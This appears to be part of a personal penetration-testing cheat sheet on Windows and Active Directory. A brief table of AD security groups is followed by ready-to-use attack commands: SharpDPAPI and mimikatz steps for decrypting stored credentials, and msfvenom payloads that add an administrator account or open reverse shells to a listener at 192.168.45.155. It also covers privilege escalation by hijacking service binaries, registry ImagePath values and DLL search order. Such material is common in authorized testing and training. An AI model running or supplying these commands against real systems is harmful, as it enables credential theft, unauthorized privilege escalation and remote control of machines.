 | **Print Operators**              | Domain local                         | Manage print queues on DCs                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| **Server Operators**             | Domain local                         | Manage DC roles: log on locally, start/stop services, backup/restore                                                                                                                                                                                                                                                                                                                                                                                                                            |
| **Domain Controllers**           | Global                               | Identifies all DCs; used in GPO targeting; can log in locally/network                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **Domain Users**                 | Global                               | All domain user accounts; standard user privileges                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| **Domain Computers**             | Global                               | All member computers; no special rights                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| **Enterprise Key Admins**        | Forest-wide, Universal               | Manage forest-level encryption keys                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Read-only Domain Controllers** | Global                               | Membership grants read-only DC functionality; no write rights                                                                                                                                                                                                                                                                                                                                                                                                                                   |

[Microsoft Active Directory Security Groups Documentation](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups)

#### Secrets extraction using DPAPI
```powershell
# secrets extraction using DPAPI
.\sharpdpapi.exe masterkeys /target:<dpapi_master_key_location> /password:pass /sid:<sid> # to decrypt DPAPI masterkey
sekurlsa::dpapi  # mimiaktz to extract decrypted DPAPI keys
dpapi::masterkey
SharpDPAPI blob /in:C:\Users\<user>\AppData\Local\Microsoft\Credentials\XYZ /masterkey:<hex>  # to decrypt credentials file storing secrets

```
#### PrivEsc Thru SERVICE
```powershell
# 1. Service Binary Hijacking
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.155 LPORT=4422 -f exe-service > serv4422.exe                  
# Or compile your own using the Windows Service C boilerplate ( [[Code & Exploit Cheatsheet#Windows Service C code]] )

# 2. Service Escalation via Registry & Permissions
# Enumerate ACLs on service registry keys
Get-Acl -Path HKLM:\System\CurrentControlSet\Services\* | Format-List
# If you have FullControl on a target service ('svc_name'):
reg add HKLM\SYSTEM\CurrentControlSet\Services\svc_name /v ImagePath /t REG_EXPAND_SZ /d C:\Temp\common.exe /f
sc start svc_name
# This re-registers the service to run your binary as SYSTEM.

# 3. Service Escalation via binpath change
# Requires SERVICE_CHANGE_CONFIG permission
sc config svc_name binpath= "\"C:\Windows\System32\net.exe\" localgroup administrators user /add"
sc start svc_name

# 4. DLL Hijacking of a Service
# Determine if the target service loads any DLL via an unqualified path check [[#Windows Services]]
# If service is 64-bit, use a 64-bit payload:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.155 LPORT=4422 -f dll -o mal4422x64.dll

# Drop the DLL into a directory earlier in the search order than the legitimate DLL’s location.
# DLL search order (LoadLibrary):  
# 1. Service executable directory  
# 2. System directory (System32)  
```